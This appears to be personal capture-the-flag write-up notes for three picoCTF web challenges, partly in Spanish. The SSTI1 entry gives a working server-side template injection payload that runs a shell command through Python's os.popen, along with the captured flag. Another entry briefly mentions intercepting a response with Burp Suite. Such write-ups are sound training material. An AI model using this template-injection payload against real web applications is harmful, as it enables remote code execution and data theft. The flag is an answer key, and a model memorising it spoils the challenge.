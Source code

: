 


# 05 SSTI1
# DESC
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:52337/)!

# SOLUCION

````` python
copie esto en la pagina 
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag ').read()}}
y me dio la bandera
 picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}

````` 






# 06  findme
# DESC
Help us test the form by submiting the username as `test` and password as `test!`

Additional details will be available after launching your challenge instance.

# SOLUCION

````` python
use el burpsuite para interceptar la respuesta despues ayye el id y lo decodifique

````` 



# 07 Java Code Analysis!?!
# DESC
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Here are the credentials to get you started:

- Username: "user"
- Password: "user"
